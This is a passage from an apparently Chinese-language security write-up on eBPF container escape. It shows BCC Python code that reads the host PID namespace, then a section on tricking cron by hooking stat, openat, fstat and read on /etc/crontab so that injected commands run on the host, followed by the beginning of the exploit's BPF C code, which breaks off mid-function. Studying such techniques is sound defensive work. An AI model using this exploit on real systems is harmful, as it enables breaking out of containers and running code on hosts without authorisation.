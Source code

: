```python
def get_pid_ns():
    pidns_link = os.readlink("/proc/1/ns/pid")
    pidns = pidns_link.split("[")[1].split("]")[0]
    return pidns

pidns = get_pid_ns()
prog = prog.replace("INIT_PIDNS", pidns)
b = BPF(text=prog)
b.trace_print()
```

### 欺骗cron
> 使用eBPF容器逃逸：https://security.tencent.com/index.php/blog/msg/206、https://github.com/TomAPU/bpfcronescape<br>
> 在ubuntu 18.04上，cron会使用三次stat(实际syscall为newstat和newfstat)，两次read，均需要对其修改<br>

![](/assets/img/ebpf_4.png)

- 调用`stat`查看`/etc/crontab`的修改时间，修改返回的`struct stat`结构中的mtime，欺骗cron进程认为该文件已被修改
- 调用`openat`打开`/etc/crontab`，通过保存其返回值得到文件描述符编号
- 调用`fstat`查看`/etc/crontab`的修改时间，修改返回的`struct stat`结构中的mtime，欺骗cron进程认为该文件已被修改
- 调用`read`读取`/etc/crontab`的内容，修改返回的数据，添加自己的命令

```python
#!/usr/bin/python3
from bcc import BPF

prog="""
#include <uapi/linux/ptrace.h>
#include <uapi/linux/limits.h>
#include <linux/sched.h>
#include <linux/stat.h>

#define CRON "cron"
#define CRONTAB "/etc/crontab"

static __inline int my_memcmp(const void* s1, const void* s2, size_t cnt){

  const char *t1 = s1;
  const char *t2 = s2;

  int res = 0;
  while(cnt-- > 0){
    if(*t1 > *t2){
      res =1;
      break;
    }
    else if(*t1 < *t2){
      res = -1;
      break;
    }
    else{
```